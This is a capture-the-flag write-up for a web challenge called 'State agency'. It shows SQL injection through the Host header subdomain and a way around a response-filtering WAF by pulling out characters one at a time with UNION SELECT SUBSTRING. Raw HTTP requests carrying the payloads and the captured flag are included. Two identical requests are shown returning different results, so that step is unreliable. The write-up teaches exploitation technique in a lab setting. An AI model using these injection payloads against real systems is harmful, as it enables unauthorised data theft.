





## State agency

### Description:
This state agency has some secrets. Exfiltrate those.
http://state-agency.tux.ro/

### Author: 
Lucian Nitescu

### Stats: 
382 point / 5 solvers

### Solution:  

The challenge started with this simple website:



Example of an "article":



By removing the parameters (example: "?Keyium=5889&Name=20+hacker+cats!&Owner=SA&Permission=cHVibGljcHVibGljcHVibGljcHVibGljcHVibGljcHVibGlj") we get the same response as before. The only input is the subdomain name. By setting it to 5888 we get:



The answer is a hint to an SQL injection challenge and also when we arrive on 5885 we get:



If we will perform an basic SQL injection in the subdomain name we will get:

```
GET / HTTP/1.1
Host: 5885 ') or 1 ;-- .state-agency.tux.ro
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Connection: close
Upgrade-Insecure-Requests: 1
```



The only way to bypass the "WAF" is to avoid certain requests. Also if you obtain in your response "DCTF", "{" or "}" your request will be blocked and you will receive "the Private data exfiltration attempt blocked" response. One way of extracting the flag is to extract characters as such:

HTTP Request:

````
GET / HTTP/1.1
Host: 5880') union select 1, 1, 1, 1, SUBSTRING(Content, 1, 1) from articles ;-- .state-agency.tux.ro
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Connection: close
Upgrade-Insecure-Requests: 1
````

Flag Response: D

HTTP Request:

````
GET / HTTP/1.1
Host: 5880') union select 1, 1, 1, 1, SUBSTRING(Content, 1, 1) from articles ;-- .state-agency.tux.ro
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Connection: close
Upgrade-Insecure-Requests: 1
````

Flag Response: DCT

Until you will get that the flag is: DCTF{8bd68b9d0b517ae71d32c62d7d00cbf27822d5014d1a8483684e19fbea99c44f}